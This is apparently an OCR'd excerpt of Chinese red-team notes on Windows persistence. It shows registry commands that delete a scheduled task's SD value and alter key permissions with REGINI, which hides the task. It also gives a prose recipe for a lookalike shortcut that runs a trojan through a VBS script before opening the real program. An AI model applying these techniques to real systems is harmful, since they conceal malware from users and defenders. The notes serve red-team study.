 ```plaintext
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\npcapwatchdog
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\OneDrive Per-Machine Standalone Update Task
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\OneDrive Reporting Task-S-1-5-21-2973696153-3313763339-1684698060-1001
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\OneDrive Reporting Task-S-1-5-21-2973696153-3313763339-1684698060-1003
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\WpsUpdateLogonTask_123
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\WpsUpdateTask_123
```

删除指定任务的 SD 值。

```plaintext
PS C:\Users\123> REG QUERY 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineRelease'

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineRelease
    SD    REG_BINARY    01000480880000009800000000000000140000000200740004000000001018009F011F0001020000000000052000000020020000001014009F011F0001010000000000051200000000101800FF011F0001020000000000052000000020020000000024008900120001050000000000051500000099003FB10B0484C5CC736A64E9030000000000000102000000000005200000002002000001050000000000051500000099003FB10B0484C5CC736A6401020000
    Id    REG_SZ    {9F65D474-E8B9-4E11-A496-11BC8FC24F1E}
    Index    REG_DWORD    0x2
```

```bash
PS C:\Users\123> reg delete 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineRelease' /v SD /f
错误: 拒绝访问。
```

添加权限

```bash
REGINI 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineRelease' [17 20]
```

[Win10 注册表无法保存对权限所作的更改拒绝访问\_无法保存对 waasmedicsvc 权限的更改\_周子青的博客-CSDN 博客](https://blog.csdn.net/qq_37674858/article/details/107876060)

### 2.2 ShortCut File (.lnk)⚒️

[RED TEAM Operator\_ Windows Persistence 06 - Shortcut Mods\_哔哩哔哩\_bilibili](https://www.bilibili.com/video/BV1DW4y1v725/?vd_source=2debf117b8b8f7d9793b4daac526786d)

模拟现有快捷方式，在打开时不影响正常应用还能触发木马，怎么做到的？

相当于直接新创建一个快捷方式，图标、文件名要与系统其他默认项一致，运行方式是最小化，防止弹出命令框。唯一不同的是要运行的目标 Taget 改成自定义的 vbs 脚本，脚本内先运行目标木马后运行正常应用。
